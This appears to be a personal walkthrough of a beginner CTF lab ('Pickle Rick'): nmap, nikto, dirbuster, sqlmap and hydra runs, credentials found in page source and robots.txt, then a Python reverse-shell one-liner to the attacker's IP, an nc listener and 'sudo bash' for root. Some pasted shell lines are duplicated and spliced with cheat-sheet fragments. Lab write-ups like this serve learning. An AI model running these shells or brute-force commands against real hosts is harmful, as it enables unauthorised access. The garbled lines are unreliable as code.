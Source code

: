 Scanning<br>
<br>
nmap -T4 -A -Pn -sVC 10.10.225.222<br>
<br>
RESULT:<br>
PORT   STATE SERVICE VERSION<br>
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)<br>
| ssh-hostkey: <br>
|   2048 8dc8bd73a912a6ac348d26e829113629 (RSA)<br>
|   256 d0d9128461502b4879d7a06130f48f99 (ECDSA)<br>
|_  256 85df59dd64afde1e6854939aed3b3eab (ED25519)<br>
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))<br>
|_http-title: Rick is sup4r cool<br>
|_http-server-header: Apache/2.4.18 (Ubuntu)<br>
<br>
Port 80 for web app and 22 for ssh, crawling port 80 to check directories with dirbuster:<br>
<br>
Target url: http://10.10.225.222/ <br>
60 threats<br>
Wordlist: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt <br>
<br>
RESULT:<br>
<br>  
http://10.10.225.222:80/<br>
http://10.10.225.222:80/icons/<br>
http://10.10.225.222:80/portal.php<br>
http://10.10.225.222/assets/<br>
http://10.10.225.222/assets/jquery.min.js<br>
http://10.10.225.222/assets/bootstrap.min.js<br>
http://10.10.225.222:80/login.php<br>
http://10.10.225.222/assets/bootstrap.min.css<br>
http://10.10.225.222:80/icons/small/<br>
http://10.10.225.222:80/denied.php<br>
http://10.10.225.222:80/server-status/<br>
<br>
We have some interesting urls, portal.php redirects to login.php.<br>
We have also an Apache/2.4.18 that is vulnerable and we can bypass the authentification, don't know how...<br>
I can try to list vulnerabilities with Nikto:<br>
<br>
nikto -host 10.10.225.222:80 <br>
<br>
RESULT:<br>
<br>
- Nikto v2.1.6<br>
---------------------------------------------------------------------------<br>
+ Target IP:          10.10.225.222<br>
+ Target Hostname:    10.10.225.222<br>
+ Target Port:        80<br>
+ Start Time:         2022-12-23 18:40:24 (GMT1)<br>
---------------------------------------------------------------------------<br>
+ Server: Apache/2.4.18 (Ubuntu)<br>
+ The anti-clickjacking X-Frame-Options header is not present.<br>
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS<br>
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type<br>
+ No CGI Directories found (use '-C all' to force check all possible dirs)<br>
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip<br>
<br>
There we can see that the Apache is vulnerable, i'm going to try to find some info about how to exploit this version:<br>
https://www.infosecmatter.com/nessus-plugin-library/?id=122059<br>
Seems we are talking about the "Vulnhub" exploit? <br>
https://github.com/vshaliii/DC-3-Vulnhub-Walkthrough<br>
There is a lot of info, i'm going to try some othe scanning scripts:<br>
nmap -p80 -sV -A --script vuln 10.10.225.222<br>
RESULT:<br>
<br>
Pre-scan script results:<br>
| broadcast-avahi-dos: <br>
|   Discovered hosts:<br>
|     224.0.0.251<br>
|   After NULL UDP avahi packet DoS (CVE-2011-1002).<br>
|_  Hosts are all up (not vulnerable).<br>
<br>
There is a CVE-2011-1002, related with the DoS, could this be usefull?<br>
The enumeration part that comes here i don't understand, just trying this:<br>
<br>
sqlmap -u "http://10.10.225.222:80/login.php"-p list[fullordering] --dbs --batch
<br>
RESULT:<br>
[*] starting @ 18:51:59 /2022-12-23/<br>
<br>
[18:51:59] [INFO] testing connection to the target URL<br>
[18:52:00] [CRITICAL] page not found (404)<br>
it is not recommended to continue in this kind of cases. Do you want to quit and make sure that everything is set up properly? [Y/n] Y<br>
[18:52:00] [WARNING] HTTP error codes detected during run:<br>
404 (Not Found) - 1 times<br>
<br>
[*] ending @ 18:52:00 /2022-12-23/<br>
<br>
Well, the sqlmap does't seems to be working. Checking the CVE-2011-1002:<br>
https://www.cvedetails.com/cve/CVE-2011-1002/<br>
There is info there but idk how to bypass the auth...<br>
I can try to bruteforce the login page:<br>
<br>
hydra -l rick -P /home/wapre/Documentos/rockyou_20_12_2022.txt 10.10.225.222 https-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V<br>
<br>
RESULT:<br>
Can not ignore the restore file with the -I ... <br>
It also give me a lot of error connected, i still believe that we can bypass this, but don't know how...<br>
Well, from now on, i'll follow this video: <br>
https://www.youtube.com/watch?v=oCAtfcr3iUw<brZ
<br>
<br>
<br>
So, i forgot to check the source code!<br>
There is a note with a username:<br>
<!--<br>
<br>
    Note to self, remember username!<br>
<br>
    Username: R1ckRul3s<br>
<br>
  --><br>
<br>
There is also some word in the http://10.10.225.222/robots.txt:<br>
Wubbalubbadubdub<br>
<br>
That is the password of the user found before!<br>
Now we have access to the a command line, i stopped the video here:<br>
<br>
ls -> Sup3rS3cretPickl3Ingred.txt <br>
http://10.10.225.222/Sup3rS3cretPickl3Ingred.txt <br>
mr. meeseek hair<br>
<br>
That is the result of Task 1!! <br>
<br>
<br>
We have more directories to go:<br>
Sup3rS3cretPickl3Ingred.txt -> that is the 1rst ingredient<br>
assets -> a list of pictures/gif etc... doesn't seem too interesting<br>
clue.txt -> Look around the file system for the other ingredient. <br>
denied.php -> don't have access yet<br>
index.html -> main page<br>
login.php<br>
portal.php<br>
robots.txt<br>
<br>
Well seems that i have to "Look around the file system for the other ingredient", back in the command line, i tried cd, sudo su, ssh, and only seems to be working with "ls"<br>
then i saw that ls ../../../ is giving me more info<br>
ls ../../../../home/rick/ -> second ingredients<br>
<br>
There is some info but idk how to move it, maybe i can copy it to: /var/www/html ??? <br>
ls ../../../home/rick/ | mv second_ingredients.html /var/www/html<br>
is does't work, even with mv or cp, i think i can't use |<br>
Then i started again the video:<br>
<br>
<br>
<br>
So, with: "grep . -R" we hace access to all the files of the directory and we can also inspect the source code.<br>
python3 -c "print('hello')" -> seems to work!<br>
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet<br>
this is a cheat sheet for reverse shells<br>
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python<br>
another cheat sheat for reverse shell<br>
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.73.214",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'<br>
<br>
we changed the IP address with the one in "tun0" on "ip a" -> 10.18.73.214<br>
and the port "1234" with the "9999"<br>
and of course, replace "python" for "python3"<br>
<br>
Now we need to create a server listening to the port selected before:<br>
nc -lnvp 9999<br>
listening on [any] 9999 ...<br>
<br>
Now we can start our query:<br>
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.73.214",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'<br>
<br>
There we have a reverse shell<br>
we need to stabiilize it:<br>
https://github.com/JohnHammond/poor-mans-pentest<br>
<br>
we can run: sudo bash<br>
then we are root<br>
so we can go to:<br>
cd ../../../home/rick<br>
grep . -R <br>
second ingredients:1 jerry tear<br>
<br>
And we can also go to:<br>
cd root<br>
grep . -R<br>
3rd.txt:3rd ingredients: fleeb juice<br>
<br>
DONE<br>


